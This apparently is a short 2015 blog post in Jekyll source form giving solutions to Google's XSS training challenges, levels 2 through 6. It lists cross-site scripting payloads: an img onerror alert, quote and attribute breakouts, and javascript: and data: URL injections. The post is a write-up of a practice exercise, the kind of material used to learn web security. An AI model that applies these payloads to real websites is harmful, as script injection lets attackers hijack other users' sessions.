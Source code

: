 ```yaml
---
layout:     post
title:      "Xss challenge solution!!"
subtitle:   "Google xss challenge Solution!"
date:       2015-10-06 16:47:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```

<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Google XSS challenge solution!</p>

<p>Challenge 2</p>

<blockquote>"ptr=&#x3C;img src=&#x22;hrj&#x22; onerror=&#x22;alert(&#x22;xss&#x22;)&#x3E;"</blockquote>

<p>Challenge 3</p>

<blockquote>&#x27; onerror=&#x27;alert(&#x22;xss&#x22;)&#x27;&#x3E;</blockquote>

<p>Challenge 4</p>

<blockquote>');alert('xss</blockquote>

<p>Challenge 5</p>

<blockquote>javascript%3Aalert(%22xss%22)</blockquote>

<p>Challenge 6</p>

<blockquote>#data:text/plain,alert('xss')</p>

<p>Stay tuned!<br> Untill we come with our another blog!</p>
